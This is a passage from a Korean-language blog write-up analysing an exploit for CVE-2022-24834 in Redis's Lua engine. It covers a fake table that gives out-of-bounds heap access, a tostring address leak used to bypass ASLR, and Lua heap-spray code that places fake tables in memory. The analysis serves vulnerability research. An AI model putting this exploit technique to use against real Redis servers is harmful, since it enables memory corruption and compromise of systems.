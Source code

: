 이렇게 구성된 Fake Table을 사용하면 아래와 같이 Fake Table의 `array` 가 가리키는 힙의 낮은 주소부터 Fake Array가 형성되고 Fake Table의 `sizearray` 가 `int` 자료형 최댓값인 0x7fffffff로 설정되어 있기 때문에 전체 힙 메모리에 접근할 수 있습니다. [CVE-2023-21608의 익스플로잇](https://hackyboiz.github.io/2024/08/04/pwndorei/1day1document_CVE-2023-21608/#1-Create-Corrupted-ArrayBuffer)에서 `ArrayBuffer`의 size 필드를 조작해서 OOB access에 사용하는 것과 동일한 용도인 거죠!…

![Untitled](1day1document_CVE-2022-24834/Untitled%202.png)

> 그림.3 [출처](https://ricercasecurity.blogspot.com/2023/07/fuzzing-farm-4-hunting-and-exploiting-0.html)
> 

 Lua에서는 `Table` 등의 오브젝트를 인자로 `tostring` 함수를 호출하면 오브젝트가 할당된 힙의 주소가 포함된 문자열이 반환됩니다. `addrof` 함수에서는 이를 이용하여 오브젝트의 주소를 가져오고 이를 통해 힙에 적용된 ASLR을 우회하고 Fake Array의 시작 주소인 `fake_array_base`를 설정합니다.

### 3. Heap Feng-Shui & Spary

익스플로잇 코드에서는 그림.2와 같은 메모리 구성을 만들기 위해 Heap Spary를 진행합니다.

```lua
   local fakes_s = {}
   local fakes_t = {}
   local fakes_num = 100
   for i=1,fakes_num do
      fakes_s[i] = 0
      fakes_t[i] = 0
   end
   for i=1,fakes_num do
      fakes_s[i] = fake_table_template .. number_strings[i]
      fakes_t[i] = {}
   end

   local target_ptr = nil
   for i=fakes_num,1,-1 do
      -- 0xXXXX22 fake table
      -- 0xXXXX80 table
      -- Note: Difference of addresses depends on #fakes_s[i]. DO NOT change the length
      if tostring(fakes_t[i]):sub(-2) == "80" then
         target_ptr = fakes_t[i]
         break
      end
   end
```
